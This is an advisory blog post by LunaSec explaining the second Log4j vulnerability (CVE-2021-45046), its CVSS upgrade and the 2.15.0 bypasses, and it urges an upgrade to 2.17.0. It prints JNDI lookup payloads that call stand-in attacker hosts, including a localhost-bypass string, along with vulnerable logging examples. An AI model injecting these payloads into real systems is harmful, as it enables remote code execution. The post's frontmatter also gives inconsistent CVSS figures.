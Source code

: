 ```yaml
---
title: "Log4Shell Update: Severity Upgraded 3.7 -> 9.0 for Second log4j Vulnerability (CVE-2021-45046)"
description: The second Log4j vulnerability was upgraded from a CVSS score of 3.7x (limited DOS) to a CVSS score of 9.7 (limited RCE), and we explain the impact.
slug: log4j-zero-day-severity-of-cve-2021-45046-increased
date: 2021-12-19
image: https://www.lunasec.io/docs/img/log4shell-keeps-coming.png
keywords: [log4shell, log4j, log4j2, rce, java, zero-day, mitigation]
authors: [free, chris, forrest]

---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

![Log4Shell Logo](https://www.lunasec.io/docs/img/log4shell-keeps-coming.png)

_The logo gets worse as the situation gets worse..._

_Originally Posted @ December 17th & Last Updated @ December 19th, 3:37pm PST_

Earlier today, the second Log4j vulnerability (CVE-2021-45046) was upgraded from a [CVSS score of 3.7](https://web.archive.org/web/20211215180723/https://logging.apache.org/log4j/2.x/security.html)
(limited DOS) to a [CVSS score of 9.0](https://logging.apache.org/log4j/2.x/security.html) (limited RCE). ~~Note: the reported
limited RCE has only been proven to be exploitable on macOS at the moment. We expect, in time, that other operating systems
will also be shown to be exploitable.~~ Update: More operating systems have been showing to be vulnerable: MacOS, Fedora, Arch Linux, and Alpine Linux.

See the bottom of this post for an example exploit payload that bypasses the checks in log4j 2.15.0.

**Just trying to patch Log4Shell? Please read our dedicated
[Mitigation Guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/).**

## Context on CVE Timeline

The Log4j team had previously released version 2.15.0 on December 6th to address, which at the time had only been
privately disclosed, the Log4Shell vulnerability that abused JNDI and LDAP to allow for an easily exploitable RCE
vulnerability. We posted a
[blog post](https://www.lunasec.io/docs/blog/log4j-zero-day/) about this new RCE that, at the time, was only being posted
about by the Chinese InfoSec community on December 9th, 2021. This post made the broader InfoSec community aware of the
ongoing exploitation and resulted in a frenzy as Java developers worked to patch themselves.

The following day, on December 10th, an official CVE was associated with this RCE vulnerability as
[CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) with the maximum possible CVSS score of
10.0.

In the days afterwards, it was realized that this fix was incomplete as bypasses were found that could result in a
limited DOS for 2.15.0 users and, for users that had patched older Log4j releases using `formatMsgNoLookups`, these
bypasses could be used to allow for limited RCE.

Version 2.16.0 was released on December 13th to address the vulnerabilities by completely disabling JNDI by default.
The next day, on December 14th, the second vulnerability was officially given a dedicated CVE numbered CVE-2021-45046
with a limited 3.7 (now 9.0).

In this post, we're going to talk about the impact of these changes and why the CVSS score has changed so drastically.

<!--truncate-->

## Understanding the new Bypass

With more attention on Log4j library now from the security community, we have seen security researchers digging into the
source code of this project. @pwntester [announced on Twitter](https://twitter.com/pwntester/status/1471465662975561734)
that there is a possible RCE still present in 2.15.0, under certain conditions.

> 2.15 with no formatMsgNoLookups mitigations is still vulnerable to RCE. 2.15.0 w/o those mitigations is vulnerable only
if attackers can control non-message parts of the pattern layout. Just to make it clear 2.15.0 disables message text lookups
by default, users need to enable them explicitly in the patterns with %m{lookups}. So mitigations are in place by default in 2.15.0

Version 2.15.0 was released in order to prevent RCE by only allowing LDAP connections to local addresses by default. This
development for the CVE means that there exists a bypass to these newly added security measures. Not everyone who has updated
to 2.15.0 is vulnerable to RCE as it requires a specific logging configuration. Since the `formatMsgNoLookups` property
is on by default in 2.15.0, to be vulnerable to this RCE, message text lookups must be manually enabled with `%m{lookups}`.

However, there even still are other ways in which a message lookup can take place. Some examples are discussed on the Log4j
security page:

> The reason these measures are insufficient is that, in addition to the Thread Context attack vector mentioned above,
there are still code paths in Log4j where message lookups could occur: known examples are applications that use
Logger.printf("%s", userInput), or applications that use a custom message factory, where the resulting messages do not
implement StringBuilderFormattable. There may be other attack vectors.

To summarize, 2.15.0 introduced changes to prevent remote connections in a message lookup (ie. a connection to `some-attacker.com`
will be blocked in: `${jndi:ldap://some-attacker.com/a}`), as well as disabled message lookups when logging by default:

```
String attackerData = "${jndi:ldap://some-attacker.com/a}";

// Message lookups are blocked in this log statement. Payload will not fire by default.
logger.info("Log string, but no lookup will happen: " + attackerData);
```

These changes were still not enough to prevent message lookups by default as there are other places in code where this could take place:

```
// Put attacker controlled data in
ThreadContext.put("layout-pattern-value", attackerData);
```

An example `log4j2.properties` file might look something like:

```
# The attacker data, "${jndi:ldap://some-attacker.com/a}", will be attempted to be looked up
appender.console.layout.pattern = ${ctx:layout-pattern-value} - %d{yyyy-MM-dd HH:mm:ss} %-5p %c{1}:%L - %m%n
```

However, since only local connections were allowed in 2.15.0, the impact of this vulnerability were minimal.
The most impactful way to exploit this vulnerability was to have `String attackerData = "${ctx:layout-pattern-value"`
which would result in a recursive reference in the lookup. With the reported bypass of the restrictive remote connection
list, a full RCE is possible in the above code as we can access `some-attacker.com` now.

It is strongly recommended that you update to ~~2.16.0~~ 2.17.0 (Updated 12/19), even if you have previously updated to 2.15.0 or 2.16.0, to mitigate these
new bypasses. (Updated 12/19 due to new DOS found in 2.16.0. Please upgrade to 2.17.0 to mitigate issues in previous versions.)

## Update: The localhost Bypass was Discovered!

It was [posted](https://twitter.com/marcioalm/status/1471740771581652995) on Twitter by Márcio Almeida early on
December 17th.

This payload will bypass the network host restrictions in log4j 2.15.0 and allow full RCE again:
```
${jndi:ldap://127.0.0.1#evilhost.com:1389/a}
```

We are still investigating how to have this exploit work properly on other operating systems. It has been proposed that
[changing the default provider](https://docs.oracle.com/javase/7/docs/technotes/guides/net/properties.html#:~:text=sun.net.spi.nameservice.provider.%3Cn%3E%3D%3Cdefault%7Cdns%2Csun%7C...%3E)
to `dns,sun`:

```
System.setProperty("http://sun.net.spi.nameservice.provider.1", "dns,sun")
```

will cause the exploit to bypass the allowed hosts check in `2.15.0` properly. However, we have not been able to replicate
this yet.

## Stay Updated

Please follow us on [Twitter](https://twitter.com/LunaSecIO) or add yourself to our mailing list below, and we'll
update you when we publish new findings.

And if this post helped you, please share it with others to help them too.


<ContactForm/>

## Additional Information

We have published a series of posts about Log4Shell on our blog that you might be interested in:
- **[Mitigation Guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)**,
- **[Original Log4Shell Announcement](https://www.lunasec.io/docs/blog/log4j-zero-day/)**,
- **[Part 1: Log4Shell Live Patch (Background Context)](https://www.lunasec.io/docs/blog/log4shell-live-patch/)**,
- **[Part 2: Log4Shell Live Patch (Technical Deep-Dive)](https://www.lunasec.io/docs/blog/log4shell-live-patch-technical/)**

### Limited Offer: Free Security Assistance

We're also currently offering a free 30-minute consultation with one of our Security Engineers. If you're interested,
please [book some time with us here](https://lunasec.youcanbook.me/).

## Updates

:::info
We're continuously keeping this post up-to-date as new information comes out. If you have any questions, or you're
confused about our advice, please [file an Issue](https://github.com/lunasec-io/lunasec/issues) on GitHub.

If you would like to contribute, or notice any errors, this post is an Open Source Markdown file on
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2021-12-17-log4j-update-increased-cvss.mdx).
:::

### Edits

1. Added a note that the RCE has only been provably exploitable on macOS
2. 12/19/21: Updated info about 2.17.0 release due to CVE.
1. Added a note that the RCE has been provably exploitable on MacOS, Fedora, Arch Linux, and Alpine Linux.
